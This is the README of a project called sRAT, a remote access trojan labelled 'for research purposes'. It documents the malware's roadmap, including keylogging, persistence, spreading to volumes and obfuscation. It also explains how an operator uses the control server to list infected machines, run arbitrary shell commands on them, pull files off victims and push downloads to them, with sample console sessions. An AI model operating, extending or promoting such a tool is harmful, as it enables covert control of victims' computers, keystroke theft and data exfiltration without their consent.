 # sRAT

A small remote access trojan, for research purposes.

## todo list

1. DONE: communication
    1. DONE: server host
    2. DONE: request syntax
2. features
    1. DONE: command exec
    2. DONE: data transfer
    3. DONE: key logging
3. infection
    1. startup
    2. copy on volumes
4. sneak
    1. obfuscation
    2. encryption

## git usage

Always use **branches** when implementing a *feature* or a *fix*, with syntax `feature/yourName/featureName` or `fix/yourName/bugToFix`, and be careful when merging.

## server usage

You may insert commands after the `>` prompt. At any time, you can list commands typing `help`.

**global server commands**

command        | argument | description
-------------- | -------- | -----------
`help`         |          | display all commands
`exit`         |          | close server
`list`         |          | list all connected clients
`select`       | id       | select a client, given its id. opens a connection.
`unselect`     |          | unselect the client. close the connection.
`log`          | [nRows]  | prints out the log ; if an argument is passed, prints the selected amount of lines.
`save_clients` |          | save clients info to an external file, named `clients`.

**seleted client commands**

command | argument              | description
------- | --------------------- | -----------
`info`  |                       | display all information about the selected client 
`exec`  | command               | make the client execute a given shell command
`upld`  | clientFile serverFile | upload a file from the client to the server
`dwnld` | fileUrl localFile     | make the client download a file given by its url

### select client

#### list all connected clients

To display all connected clients, use

	>list

It will output a two-column array, with ids and MACs of all connected clients.

	>list
	id     MAC address         IP Address     OS
	1234   AA-BB-CC-DD-EE-FF   /192.168.1.2   Windows 10
	5678   00-11-22-33-44-55   /192.168.1.3   Windows 7

#### select one client

To selcet a client, use `select ID`. For example,

	>select 1234
	Selected client 1234
	1234*>

It may take up to 10 seconds to connect (the time between two clients ping). Now the prompt should begin as follows:

	Client 1234 connected.
	1234>

### execute a command

When a client is selected, make it execute a command with `exec YOUR_COMMAND`.

	1234>exec ipconfig
	Added command to stack

It might take a few seconds, and then the output will be printed. If the client is using Windows, you can start any shell command with

	1234>exec cmd.exe /C YOUR_COMMAND

The output will be sent back to you.

